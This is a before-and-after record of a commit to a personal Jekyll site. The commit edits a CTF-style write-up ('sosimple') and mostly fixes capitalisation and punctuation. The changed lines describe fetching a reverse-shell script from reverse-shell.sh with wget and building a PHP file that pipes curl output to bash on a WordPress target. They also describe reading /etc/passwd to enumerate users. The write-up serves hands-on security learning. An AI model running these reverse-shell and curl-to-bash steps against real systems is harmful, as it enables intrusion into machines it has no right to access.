

Before and after one commit to hhhharshil/hhhharshil.github.io, a Jekyll site: the page built from writeups/2021-12-25-sosimple.md, in a window 1280 px wide and 900 px high, scrolled down 3332 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update 2021-12-25-sosimple.md

````diff
--- a/writeups/2021-12-25-sosimple.md
+++ b/writeups/2021-12-25-sosimple.md
@@ -121,13 +121,13 @@ Now that we have a way to get rce we will need to setup a few files that will se
 
 First we are grabbing a bash script from reverse-shell-as-a-service which will serve as a primary payload.
 https://reverse-shell.sh/yourip:port
-go to the site linked above change the your port and IP parameters
+go to the site and change the your port and IP parameters
 
-can wget https://reverse-shell.sh/yourip:port so save its contents
+Use wget https://reverse-shell.sh/yourip:port to save its contents
 
-then i recommend changing the file name with mv to something like h.sh
+Then I recommend changing the file name with mv to something like h.sh
 
-now that we have our payload we have to construct another file that will execute a curl command and pipe it to bash to execute our script.
+Now that we have our payload we have to construct another file that will execute a curl command and pipe it to bash to execute our script.
 
 This file will be written in php as that is what wordpress runs.
 
@@ -180,9 +180,8 @@ steven:x:1001:1001:Steven,,,:/home/steven:/bin/bash
 ```
 
 Checked to see if we can run anything as sudo with www but we needed a password.
-Checked to see if there are any tasks running in the crontab but nothing
-
-Then checked /etc/passwd | grep sh to see which users are on the box
+Checked to see if there are any tasks running in the crontab but nothing.
+Then checked /etc/passwd | grep sh to see which users are on the box.
 
 We have root, max and steven.
 
````
